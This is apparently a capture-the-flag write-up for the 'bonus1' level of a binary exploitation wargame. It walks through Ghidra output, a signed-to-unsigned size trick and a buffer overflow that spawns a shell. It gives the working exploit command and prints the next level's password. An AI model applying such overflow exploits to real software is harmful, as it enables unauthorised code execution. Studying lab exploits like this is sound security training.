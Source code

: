 # bonus1

looking at ghidra, we have a program with 2 arguments. 
- local_14 > argv[1]: should be a number < 10
- local_3c[40] > argv[2]: this is where we will overflow. 

    memcpy(local_3c,*(void **)(param_2 + 8),local_14 * 4);
    if (local_14 == 0x574f4c46) {
      execl("/bin/sh","sh",0);
    }

void * memcpy( void * destination, const void * source, size_t size );

memcpy takes size_t as 3rd argument which is an unsigned int. If we give it a signed int it will be <10 so we have enough space for the buffer 

If we convert -2147483637 * 4 to unsigned int, we get 44.
We need 44 to overflow the buffer and equal 0x574f4c46 in the condition.

    $ ./bonus1 -2147483637 $(python -c "print 'A' * 40 + '\x46\x4c\x4f\x57'")
    $ cat /home/user/bonus2/.pass
    579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
